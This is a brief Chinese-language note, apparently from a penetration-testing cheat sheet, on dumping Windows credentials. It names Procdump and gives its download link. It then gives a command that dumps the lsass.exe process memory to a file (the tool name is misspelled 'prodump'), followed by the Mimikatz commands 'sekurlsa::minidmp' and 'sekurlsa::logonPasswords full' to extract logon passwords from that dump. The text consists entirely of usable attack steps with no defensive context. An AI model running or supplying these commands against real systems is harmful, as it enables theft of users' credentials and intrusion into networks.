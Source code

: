 ## Mimikatz结合Prodump 获取内存密码
 
 `Prodump下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump`
 
    prodump.exe -accepteula -ma lsass.exe lsass.dmp
    
    把lsass.dmp放到mimikatz目录下
    
    sekurlsa::minidmp lsass.dmp和sekurlsa::logonPasswords full
